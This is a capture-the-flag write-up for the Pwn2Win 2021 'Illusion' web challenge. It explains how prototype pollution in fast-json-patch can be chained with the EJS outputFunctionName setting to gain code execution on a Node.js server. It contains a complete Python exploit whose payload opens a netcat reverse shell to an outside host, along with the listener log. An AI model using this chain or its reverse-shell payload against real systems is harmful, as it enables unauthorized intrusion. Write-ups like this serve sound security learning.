 # Pwn2Win 2021 - Illusion

## Challenge Description

> #### **Challenge: Illusion - web - 152 pts**
>
> Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.
>
> **Server:** nc illusion.pwn2win.party 1337

{% file src="../../../.gitbook/assets/illusion.tar.gz" caption="Attachment" %}

## Writeup

### First look

The challenge's attachment contains a source code of a website written in NodeJS.

```javascript
❯ tree .
.
├── Dockerfile
├── entrypoint.sh
├── flag.txt
├── readflag
└── src
    ├── index.js
    ├── package-lock.json
    ├── package.json
    ├── static
    │   └── style.css
    └── templates
        └── index.ejs

3 directories, 9 files
```

### Finding the bug

There is only a single javascript code file, so knowing where to look for the bug located is quite straightforward. The other files – e.g. `Dockerfile`, `entrypoint.sh` – do not contain anything interesting.

{% code title="src/index.js \(partial\)" %}
```javascript
let services = {
    status: "online",
    cameras: "online",
    doors: "online",
    dome: "online",
    turrets: "online"
}

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```
{% endcode %}

The `index.js` contains a web service using `express` and `ejs` to basically shows display a formatted javascript object `service` into table format on frontend.

![The website](../../../.gitbook/assets/image%20%2825%29.png)

There is an interesting API function `/change_status` that allows us to replace the property in JS object `service` to our inputted value using a library `fast-json-patch`. Something noteworthy is: there is no validation at all on the inputted values. This allow us to provide object `{}` instead of string.

{% code title="src/index.js \(partial\)" %}
```javascript
const jsonpatch = require('fast-json-patch')

app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```
{% endcode %}

Looking at the `fast-json-patch` GitHub page, there is an open [pull request](https://github.com/Starcounter-Jack/JSON-Patch/pull/262) fixing a prototype pollution bug. At this point, we already knows the bug, the rest is just to craft the exploit for RCE.

### Exploit

> `outputFunctionName` Set to a string \(e.g., `'echo'` or `'print'`\) for a function to print output inside scriptlet tags. -- [https://ejs.co/](https://ejs.co/)

From quick googling with keywords _"prototype pollution ejs"_, we can know that we can pollute prototype property `outputFunctionName` in EJS to get RCE. So the idea is:

* Using API, set the `service.cameras` property into object `{}`.
* Using API, set the `service.cameras.constructor.prototype.outputFunctionName` to our RCE reverse shell payload.
* In our VPS, Setup listener using netcat for incoming reverse shell.
* GET the website to trigger EJS to execute our payload.
* Reverse shell obtained, then read flag.

```python
import requests

'''
# inside vps:

root@esper:~# nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 35.223.81.55 37939

whoami
guest

./readflag
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
'''

url = 'http://illusion.pwn2win.party:14473'
password = 'jfuqpriqtshvbabn' # provided from the challenge 

payload = "x;global.process.mainModule.require('child_process').exec('sh -c \"nc 1.2.3.4 8888 -e /bin/sh\"');x"

session = requests.Session()
session.auth = ('admin', password)
session.post(f'{url}/change_status', json={'cameras': {}})
session.post(f'{url}/change_status', json={
    'cameras/constructor/prototype/outputFunctionName': payload
})
session.get(url)
```

## Flag

`CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}`

